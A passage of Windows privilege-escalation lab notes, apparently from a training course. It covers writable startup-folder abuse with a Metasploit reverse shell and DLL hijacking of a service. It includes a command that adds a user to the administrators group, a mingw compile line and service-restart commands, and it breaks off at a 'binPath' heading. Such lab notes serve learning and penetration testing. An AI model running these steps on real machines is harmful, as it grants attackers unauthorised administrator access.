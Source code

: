 ## RDP session

Open cmd and type `icacls.exe C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Start`

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup 
BUILTIN\Users:(F) => This user has full access
TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
Everyone:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```

**NOTE : icacls.exe modifies NTFS file system permission**


# Exploit

Set up a handler in metasploit to catch the reverse shell.

Move x.exe to `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

And log off and log in as `admin`

We get a reverse shell!!

# DLL Hijacking

When an application is looking for a dll to run then we place our own dll file instead the original one.

The Windows VM has dllhijackservice.exe and it requires hijackme.dll but doen't have it so we copy windows_dll.c into our Ubuntu Machine and edit it.

## Exploit

1. Open the windows_dll.c in text editor and add `cmd.exe /k net localgroup administrators user /add`

2. Compile the file `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`

3. Upload it to the Windows machine.

## RDP session

Place hijackme.dll in C:\Temp. Open cmd and type `sc stop dllsvc & sc start dllsvc`

POC : net localgroup administrators => gives us the user

# binPath
